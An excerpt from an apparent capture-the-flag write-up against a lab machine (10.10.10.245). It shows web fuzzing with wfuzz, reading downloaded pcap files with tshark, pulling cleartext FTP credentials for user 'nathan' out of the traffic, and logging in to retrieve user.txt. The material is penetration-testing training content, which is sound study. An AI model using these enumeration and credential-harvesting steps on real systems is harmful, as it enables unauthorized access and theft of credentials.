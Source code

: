 ```shell
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -L -t 200 --hc 404 --hh 19385 "http://10.10.10.245/data/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.245/data/FUZZ
Total requests: 4712

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000096:   200        370 L    993 W      17146 Ch    "0"               
000000098:   200        370 L    993 W      17152 Ch    "01"              
000000097:   200        370 L    993 W      17146 Ch    "00"              
000000132:   200        370 L    993 W      17152 Ch    "2"               
000000099:   200        370 L    993 W      17152 Ch    "02"       
```
We see we can access to `/data/1` and `/data/0`, let's download their `pcap` files:
```shell
❯ mv ~/Downloads/1.pcap Results
❯ tshark -r Results/1.pcap | grep pass
2448   2.387513  10.10.14.17 → 10.10.10.245 HTTP 208 GET /forgotpasswd HTTP/1.1 
❯ mv ~/Downloads/0.pcap Results
❯ tshark -r Results/0.pcap | grep FTP
   34   2.626895 192.168.196.16 → 192.168.196.1 FTP 76 Response: 220 (vsFTPd 3.0.3)
   36   4.126500 192.168.196.1 → 192.168.196.16 FTP 69 Request: USER nathan
   38   4.126630 192.168.196.16 → 192.168.196.1 FTP 90 Response: 331 Please specify the password.
   40   5.424998 192.168.196.1 → 192.168.196.16 FTP 78 Request: PASS Buck3tH4TF0RM3!
   42   5.432387 192.168.196.16 → 192.168.196.1 FTP 79 Response: 230 Login successful.
```
As we can see, when looking at the `FTP traffic` we can read the credentials `nathan:Buck3tH4TF0RM3!`.

### Port 21 enumeration
Now that we have valid `ftp credentials`, we can login into the ftp server and see its content:
```shell
❯ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:r3van): nathan
331 Please specify the password.
Password: # Buck3tH4TF0RM3!
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Jun 15 19:45 user.txt
226 Directory send OK.
```
We obtained the `user.txt` file but not a shell.
